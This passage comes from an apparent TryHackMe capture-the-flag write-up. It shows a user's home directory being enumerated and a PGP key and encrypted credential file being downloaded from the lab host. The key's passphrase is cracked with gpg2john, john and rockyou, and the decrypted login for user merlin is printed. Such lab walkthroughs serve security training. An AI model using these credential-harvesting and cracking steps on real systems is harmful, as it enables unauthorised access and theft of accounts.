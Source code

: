 ### 5. Enumerate skyfuck’s Home Directory
- Listed files:
  ```bash
  ls -la
  ```
- Output:
  ```
  drwxr-xr-x 3 skyfuck skyfuck 4096 Apr 20 22:52 .
  drwxr-xr-x 4 root    root    4096 Mar 10  2020 ..
  -rw------- 1 skyfuck skyfuck  136 Mar 10  2020 .bash_history
  -rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
  -rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
  drwx------ 2 skyfuck skyfuck 4096 Apr 20 22:52 .cache
  -rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
  -rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
  -rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
  ```
- **Key Files**:
  - `tryhackme.asc`: A PGP private key.
  - `credential.pgp`: An encrypted file, likely containing credentials [].
- Viewed `.bash_history`:
  ```bash
  cat .bash_history
  ```
- Output: Showed `wget` commands downloading `tryhackme.asc` and `credential.pgp` from `192.168.32.23`, indicating prior user activity [].

### 6. Crack PGP Key and Decrypt Credentials
- Copied `tryhackme.asc` and `credential.pgp` to the attacking machine (e.g., via `scp` or manual download from `http://10.10.181.178:8000/credential.pgp`):
  ```bash
  wget http://10.10.181.178:8000/credential.pgp
  ```
- Converted the PGP key to a crackable format:
  ```bash
  gpg2john tryhackme.asc > output
  ```
- Cracked the passphrase using `john`:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt output
  ```
- Output:
  ```
  alexandru (tryhackme)
  ```
- Imported the PGP key:
  ```bash
  gpg --import tryhackme.asc
  ```
- Decrypted `credential.pgp`:
  ```bash
  gpg --decrypt credential.pgp
  ```
- Passphrase: `alexandru`
- Output:
  ```
  merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
  ```
- **Findings**: Credentials for user `merlin` with a complex password [].
